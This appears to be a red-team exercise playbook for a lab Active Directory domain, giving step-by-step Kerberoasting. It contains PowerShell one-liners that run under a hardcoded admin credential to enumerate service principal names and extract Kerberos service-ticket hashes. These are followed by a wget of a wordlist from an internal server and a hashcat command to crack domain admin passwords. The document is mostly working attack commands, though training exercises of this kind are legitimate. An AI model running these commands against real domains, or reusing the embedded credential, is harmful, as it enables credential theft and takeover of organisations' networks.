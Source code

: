 # Advanced Kerberoasting


## **Playbook ID: 4.06** - Ad Exploitation SPN Kerberoasting - **MSEL Event ID: AT1-6**


1. Now that you have the SAM account names, perform a subsquent query to obtain the SPN names. These will be used to perform targeted kerberoasting attacks by obtaining the kerberos pre-authentication ticket hash from the DC.

```
$name=lex.walsh
[runas.program]::netonly(("it-nakatomi##.local","webadmin","Vr6F#x@9c2",'[string[]]$spns=([adsisearcher]"(&(objectCategory=user)(samaccountname=$name))").findall()|%{$_.properties["serviceprincipalname"]};$spns'));
```

```
$name=al.powell
[runas.program]::netonly(("it-nakatomi##.local","webadmin","Vr6F#x@9c2",'[string[]]$spns=([adsisearcher]"(&(objectCategory=user)(samaccountname=$name))").findall()|%{$_.properties["serviceprincipalname"]};$spns'));
```

```
$name=nia.daugherty
[runas.program]::netonly(("it-nakatomi##.local","webadmin","Vr6F#x@9c2",'[string[]]$spns=([adsisearcher]"(&(objectCategory=user)(samaccountname=$name))").findall()|%{$_.properties["serviceprincipalname"]};$spns'));
```

***ITERATE THIS STEP FOR EACH USER FROM THE PREVIOUS STEP***
6. Armed with the list of the user SAM accounts and SPN names, we will perform the attack using the command below. Note that you will need to change the SPN and SAM account for each user (e.g., "`mssqlsvc/it-sql.it-nakatomi##.local`", "`al.powell`"). Copy the SPN hashes to crack offline.

> Note there are two locations in this commmand that you have to replace the ## with the enclave number.

```
[runas.program]::netonly(("it-nakatomi##.local","webadmin","Vr6F#x@9c2",'$_spn={param($spn,$sam);$_=[reflection.assembly]::loadwithpartialname("system.identitymodel");$tgt=[identitymodel.tokens.kerberosrequestorsecuritytoken]::new($spn);$tb=$tgt.getrequest();if($tb){$th=[bitconverter]::tostring($tb)-replace"-";[collections.arraylist]$pt=($th-replace"^(.*?)04820...(.*)","`$2")-split"a48201";$pt.removeat($pt.count-1);$hs=$pt-join"a48201";$hs=$hs.insert(32,"`$");"`n`$krb5tgs`$23`$*"+$sam+"/"+$spn+"*`$"+$hs;}};$_spn.invoke("mssqlsvc/it-sql.it-nakatomi##.local", "al.powell");'));
```
```
[runas.program]::netonly(("it-nakatomi##.local","webadmin","Vr6F#x@9c2",'$_spn={param($spn,$sam);$_=[reflection.assembly]::loadwithpartialname("system.identitymodel");$tgt=[identitymodel.tokens.kerberosrequestorsecuritytoken]::new($spn);$tb=$tgt.getrequest();if($tb){$th=[bitconverter]::tostring($tb)-replace"-";[collections.arraylist]$pt=($th-replace"^(.*?)04820...(.*)","`$2")-split"a48201";$pt.removeat($pt.count-1);$hs=$pt-join"a48201";$hs=$hs.insert(32,"`$");"`n`$krb5tgs`$23`$*"+$sam+"/"+$spn+"*`$"+$hs;}};$_spn.invoke("HOST/it-shrpt.it-nakatomi##.local", "lexi.walsh");'));
```
```
[runas.program]::netonly(("it-nakatomi##.local","webadmin","Vr6F#x@9c2",'$_spn={param($spn,$sam);$_=[reflection.assembly]::loadwithpartialname("system.identitymodel");$tgt=[identitymodel.tokens.kerberosrequestorsecuritytoken]::new($spn);$tb=$tgt.getrequest();if($tb){$th=[bitconverter]::tostring($tb)-replace"-";[collections.arraylist]$pt=($th-replace"^(.*?)04820...(.*)","`$2")-split"a48201";$pt.removeat($pt.count-1);$hs=$pt-join"a48201";$hs=$hs.insert(32,"`$");"`n`$krb5tgs`$23`$*"+$sam+"/"+$spn+"*`$"+$hs;}};$_spn.invoke("LDAP1/it-dc2.it-nakatomi##.local", "nia.daugherty");'));
```

7. Collect the hashes into a text file (`kerb.hash`) on your kali operater box. 

8. Get the provided word list (`rawk_you.txt`) from the file server, and run John/Hashcat with it.
   ```sh
   wget http://172.16.2.2:8080/rush_hour/rawk_you.txt \
   hashcat -m 13100 -a 0 -w 4 --force --opencl-device-types 1,2 -O ./kerb.hash ./rawk_you.txt
   ```
   Keep a text file with the decrypted passwords for each domain admin. You should have: `al.powell lexi.walsh nia.daugherty`.

